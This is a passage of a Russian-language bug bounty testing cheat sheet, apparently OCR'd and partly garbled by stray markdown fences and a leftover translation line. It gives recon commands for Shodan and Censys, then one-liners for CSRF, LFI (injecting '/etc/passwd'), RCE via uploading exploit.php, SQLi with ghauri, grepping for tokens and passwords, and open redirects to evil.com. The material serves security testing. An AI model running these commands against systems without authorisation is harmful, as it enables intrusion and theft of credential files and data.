 **Перечень с использованием Shodan**
```bash
shodan search "net:<ip_range>" --fields ip_str,port --limit 100
```

**Поиск активов с использованием Censys**
```bash
censys search "autonomous_system.asn:<ASN_Number>" -o censys_assets.txt
```

---
```


Вот переведенный и отформатированный текст в Markdown:

```markdown
## **4. Тестирование уязвимостей**

### **4.1 Уязвимости высокого приоритета**

**🐞Тестирование CSRF**
```bash
cat live_websites.txt | gf csrf | tee csrf_endpoints.txt
```

**🐞Тестирование LFI**
```bash
cat live_websites.txt | gf lfi | qsreplace "/etc/passwd" | xargs -I@ curl -s @ | grep "root:x:" > lfi_results.txt
```

**🐞Тестирование RCE**
```bash
curl -X POST -F "file=@exploit.php" https://target.com/upload
```

**🐞Тестирование SQLi**
```bash
ghauri -u "https://target.com?id=1" --dbs --batch
```

**🐞Поиск чувствительных данных**
```bash
cat js_files.txt | grep -Ei "key|token|auth|password" > sensitive_data.txt
```

**🐞Тест на открытые редиректы**
```bash
cat urls.txt | grep "=http" | qsreplace "https://evil.com" | xargs -I@ curl -I -s @ | grep "evil.com"
```

---

<br>

## **5. Подход "Два Глаза" 👀**
1. **Первый Глаз:** Сфокусируйтесь на тестировании каждого собранного поддомена, конечной точки или параметра на наличие распространенных уязвимостей.
2. **Второй Глаз:** Выявите «интересные» находки, такие как раскрытые учетные данные, забытые поддомены или панели администратора.
